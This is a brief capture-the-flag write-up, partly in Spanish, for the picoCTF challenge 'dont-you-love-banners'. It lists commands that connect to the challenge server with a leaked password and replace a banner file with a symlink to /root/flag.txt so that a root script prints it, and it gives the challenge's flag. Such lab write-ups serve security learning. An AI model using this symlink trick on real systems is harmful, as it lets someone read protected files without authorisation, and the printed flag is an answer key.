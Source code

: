 # 7 - dont-you-love-banners

## Descripcion:
* Can you abuse the banner?
Additional details will be available after launching your challenge instance.
* Do you know about symlinks?
* Maybe some small password cracking or guessing

## Solucion:
* nc tethys.picoctf.net 52389
* My_Passw@rd_@1234
* DEFCON
* John Draper
* cat banner
* cat text
* ls -al /root
* cat /root/script.py
* rm /home/player/banner
* ln -s /root/flag.txt /home/player/banner
* ctrl + c
* nc tethys.picoctf.net 52389
* picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_218ef5d6}

## Notas:
* entramos a la pagina en la terminal
* ponemos la contraseña
* respondemos 2 preguntas
* vemos que contiene banner y text
* retrosedemos y damos permisos
* vemos que esta escrito en el script
* removemos los permisos
* modificamos la ruta de los permisos
* volvemos a la terminal principal
* ejecutamos otra ves la pagina
* nos da la bandera

## Referencias: